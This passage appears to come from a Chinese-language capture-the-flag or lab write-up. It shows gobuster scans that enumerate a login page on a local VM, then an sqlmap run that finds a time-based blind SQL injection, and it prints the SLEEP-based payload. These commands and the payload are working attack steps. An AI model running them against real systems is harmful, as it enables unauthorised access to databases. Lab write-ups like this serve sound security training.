 ```
/littlesecrets        (Status: 301) [Size: 324] [--> http://192.168.56.116/littlesecrets/]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

针对这个**/littlesecrets**再次进行扫描

```
[root@kali] /home/kali  
❯ gobuster dir -u http://192.168.56.116/littlesecrets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50  -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.116/littlesecrets
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/login.php            (Status: 200) [Size: 1983]
/manager.php          (Status: 302) [Size: 0] [--> login.php]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## SQL Injection

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/littlesecrets/login.php" --data "username=123&password=123" -p username --level 5

sqlmap identified the following injection point(s) with a total of 2625 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=123' AND (SELECT 9142 FROM (SELECT(SLEEP(5)))mFLQ)-- TXmn&password=123
---
```
